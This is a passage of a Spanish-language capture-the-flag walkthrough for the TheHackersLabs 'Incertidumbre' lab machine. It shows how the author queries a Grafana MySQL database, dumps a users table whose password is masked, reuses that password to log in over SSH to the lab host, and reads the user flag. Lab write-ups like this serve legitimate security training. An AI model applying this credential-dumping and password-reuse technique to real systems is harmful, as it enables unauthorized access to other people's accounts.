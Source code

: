 Usemos la BD de **Grafana** y veamos sus tablas:
```bash
MySQL [(none)]> use grafana_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [grafana_db]> show tables;
+----------------------------+
| Tables_in_grafana_db       |
+----------------------------+
| alert                      |
| alert_configuration        |
...
| temp_user                  |
| test_data                  |
| user                       |
| user_auth                  |
| user_auth_token            |
| users                      |
+----------------------------+
45 rows in set (0.003 sec)
```
Tenemos una tabla llamada **users**.

Veamos su contenido:
```bash
MySQL [grafana_db]> select * from users;
+---------+--------------------------------+
| usuario | passwd                         |
+---------+--------------------------------+
| cloud   | ****************************** |
+---------+--------------------------------+
1 row in set (0.002 sec)
```
Tenemos la contraseña del **usuario cloud**.

Sabemos que existe dentro de la máquina víctima, por lo que es posible que sea su contraseña del **servicio SSH**.

Probémosla:
```bash
ssh cloud@192.168.100.130
cloud@192.168.100.130's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)
...
Last login: Fri Oct 18 17:35:25 2024
cloud@TheHackersLabs-Incertidumbre:~$ whoami
cloud
```
Muy bien, estamos dentro.

Aquí encontraremos la flag del usuario:
```bash
cloud@TheHackersLabs-Incertidumbre:~$ ls
time.sh  user.txt
cloud@TheHackersLabs-Incertidumbre:~$ cat user.txt
...
```
